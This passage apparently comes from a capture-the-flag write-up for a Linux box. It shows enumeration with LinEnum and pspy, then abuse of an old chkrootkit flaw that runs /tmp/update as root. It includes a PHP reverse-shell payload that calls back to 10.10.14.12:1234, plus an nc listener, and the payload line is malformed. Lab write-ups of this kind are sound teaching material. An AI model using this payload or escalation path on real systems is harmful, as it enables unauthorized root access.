 ```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

Only one thing stands out in the output.

![](https://miro.medium.com/max/1126/1*a66UrLJZtw7xOjPz30diJg.png)

In our nmap scan, port 22 was not reported to be open, however, the LinEnum script reports it as listening on localhost. I’m not sure what to do with this piece of information but I’ll keep it at the back of my mind in case I don’t find any other way to escalate privileges.

Next, let’s try pspy. If you don’t have the script, you can download it from the following github repository.

```text
https://github.com/DominicBreuker/pspy
```

Upload it and run it on the attack machine in the same way we did for LinEnum.

After a minute we see an interesting process pop up.

![](https://miro.medium.com/max/890/1*ekBPVdpGUEeu7fHUwwkQCA.png)

Every minute or so the chkrootkit is being run. I’ve never seen that on a machine before so I googled it and found out that it is a program intended to help system administrators check their system for known rootkits. Next, I googled “chkrootkit privilege escalation” and landed on this [exploit](https://www.exploit-db.com/exploits/33899).

There is a privilege escalation vulnerability with old versions of this software that will run any executable file named /tmp/update as root. Therefore, all we have to do is create an “update” file that contains a reverse shell and wait for the scheduled task to give us a shell with root privileges.

To do that, navigate to the /tmp directory and create the file update. In the update file add the following code.

```text
#!/bin/bashphp -r '$sock=fsockopen("10.10.14.12",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Wait a minute until the scheduled task runs.

![](https://miro.medium.com/max/737/1*fkGv4JXqwIYAfUDWhzfFow.png)

We get a privileged shell! Now we can view the user.txt flag and the root.txt flag.
